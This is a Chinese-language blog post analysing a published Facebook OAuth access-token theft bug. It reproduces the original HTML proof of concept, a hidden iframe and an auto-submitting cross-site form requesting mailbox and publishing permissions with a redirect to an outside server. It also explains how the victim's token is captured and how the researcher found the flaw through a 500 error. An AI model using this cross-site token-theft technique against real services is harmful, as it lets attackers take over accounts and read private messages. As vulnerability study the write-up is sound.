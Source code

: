 # 漏洞散记
##  记录一个token窃取
> Facebook的一个token窃取，说实话，这个漏洞看的我很迷，甚至在写分析的时候我都还没搞清楚到底是什么一个情况，准确的说到底是如何去利用，能达成什么效果，就看能不能在分析的时候灵光一闪了

> 漏洞价值:未知

> 源漏洞:[steal token](https://whitton.io/articles/stealing-facebook-access-tokens-with-a-double-submit/)

# 灵光真的闪了
确实灵光闪了，仿佛知道了漏洞的具体情况，为了不让自己的火花消失掉，所以这章可能会写的很乱

## 先说利用
作者写了一套POC，记住是一套，虽然作者只放出其中一份代码出来
```
<!-- index.html -->
<html>
    <head></head>
    <body>
        <h3>Facebook Auth PoC - Wait 5 Seconds</h3>
        <!-- Load the form first -->
        <div id="iframe-wrap">
            <iframe src="frame.html" style="visibility:hidden;"></iframe>
        </div>
        <!-- Load the second after 5 seconds -->
        <script>
            setTimeout(function(){
                document.getElementById('iframe-wrap').innerHTML = '<iframe src="frame.html" style="width:800px;height:500px;"></iframe>';
            }, 5000);
        </script>
    </body>
</html>

<!-- frame.html -->
<form action="https://www.facebook.com/connect/uiserver.php" method="POST" id="fb">
    <input type="hidden" name="perms" value="email,user_likes,publish_actions,read_mailbox">
    <input type="hidden" name="dubstep" value="1">
    <input type="hidden" name="new_user_session" value="1">
    <input type="hidden" name="app_id" value="359849714135684">
    <input type="hidden" name="redirect_uri" value="https://fin1te.net/fb-poc/fb.php">
    <input type="hidden" name="response_type" value="code">
    <input type="hidden" name="from_post" value="1">
    <input type="hidden" name="__uiserv_method" value="permissions.request">    
    <input type="hidden" name="grant_clicked" value="Visit Website">
</form>
<script>document.getElementById('fb').submit();</script>
```
一开始我看球不懂，想不通这个html能干嘛，后来看到这个**location**
![1](https://whitton.io/images/facebookauth/facebook-auth-3-1.png)

才知道，原来还有个fb.php配合，虽然没有放出具体的代码，但是个人觉得应该就是个对于token的利用

然后在index.html的框里展示出来

## 利用
利用怎么利用？？这个**index.html**发给**victim**，然后**victim**访问会会向**fb.php**发送**access_token**，接着会处理这个**token**然后展示出**victim**的部分FB的**inbox**信息

## 漏洞挖掘
终于一口气憋完了，这时候重新想作者如何挖掘的漏洞，才是感觉到作者的强大之处，简直太强了

先说漏洞处本身应该具有的功能

首先用户登录进fb，然后会看到有内置的app链接，用户可以点击**view**然后跳转到app的site

![2](https://whitton.io/images/facebookauth/facebook-auth-1-1.png)

### 步步深思

作者首先注意到，这个**Form**居然不存在权限对话框，那么其访问权限就是应该完全由用户本身生成的，然后因为CSRF_token所以基本能确定这个可能性

> 这一步就要开始说，这个很值得深思，原本的漏洞挖掘根本不会在意这些，但是这一次就感觉到，这仿佛是一个很重要的引子

接着作者尝试删除requests的CSRF_token，然后传回了500的错误，作者说这个在预料内

```
This is expected behaviour.
```
但是漏洞最关键的一步发生了，就是虽然是500，但是后端还是生成了一个**access_token**，作者刷新了页面也就是重新回到了图二的页面，将鼠标悬浮在**Visit Website**这个**button**上时，也能够发现**access_token**

![3](https://whitton.io/images/facebookauth/facebook-auth-2.png)

>我的天，这让我突然想起来一件事，就是以前做测试时，好像数次遇到了这种情况，但是都因为500而放弃继续深入测试下去了，这一次突然让我想起来，尼玛之前的几个server不会也有token窃取吧

后续实际就可以不说了，毕竟**access_token**都到手了，还要说什么呢

# 结语

写的很仓促，一个是因为确实看了很久，想出具体的经过很费时，二就是此时的我正在刷《好想告诉你》，一个不错的番，确实不错

总结一下这次漏洞挖掘，看起来很简单，但是从发现到利用，个人感觉，担得上**处处精彩**这四个字,毕竟个人也是做这行的工作，能发现并且利用确实存在相当的难度，所一十分精彩，值得细细深思，一个500后往往都不会再在意什么，但是偏偏却能发现到多出了一个access_token，还有刚开始的那个，凭借没有发现认证就能判断具体的权限功能，这是值得回味的细节，个人感觉，这个应该是长久测试所积累起来的感觉与经验
